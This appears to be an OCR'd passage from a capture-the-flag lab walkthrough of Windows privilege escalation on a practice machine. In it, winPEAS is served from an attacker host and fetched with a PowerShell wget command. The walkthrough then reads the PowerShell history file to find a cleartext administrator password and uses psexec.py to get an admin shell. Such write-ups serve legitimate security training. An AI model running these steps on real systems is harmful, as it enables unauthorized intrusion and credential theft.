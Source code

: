 It is possible to download winpeas from here. We will transfer it to our target system by using once more
the Python HTTP server:


On the target machine, we will execute the wget  command in order to download the program from our
system. The file will be downloaded in the directory from which the wget  command was run. We will use
powershell for all our commands:



`python3 -m http.server 80`

powershell
wget [http://10.10.14.9/winPEASx64.exe](http://10.10.14.9/winPEASx64.exe) -outfile winPEASx64.exe



--- Page 14 ---


We successfully downloaded the binary. To execute it, we will do the following:

**Note**: The output of the tool is long, here you will see just the small part of the output.

Here's the **important** part of the output:
PS `C:\Users\sql_svc\Downloads`> .\winPEASx64.exe



--- Page 15 ---


From the output we can observe that we have SeImpersonatePrivilege  (more information can be found
here), which is also **vulnerable** to juicy potato **exploit**. However, we can first check the two existing files
where credentials could be possible to be found.
As this is a normal user account as well as a service account, it is worth checking for frequently access files
or executed commands. To do that, we will read the PowerShell history file, which is the equivalent of
.bash_history  for Linux systems. The file ConsoleHost_history.txt  can be located in the directory
`C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\` .


We can navigate to the folder where the PowerShell history is stored:


To read the file, we will type type ConsoleHost_history.txt :

We got in cleartext the password for the Administrator user which is MEGACORP_4dm1n!!
We can now use the tool psexec.py  again from the Impacket suite to get a shell as the administrator:



`python3 psexec.py administrator@{TARGET_IP}`



--- Page 16 ---


The root flag can now be found on the Desktop of the Administrator user:

Finally, we managed to get both flags, congratulations!
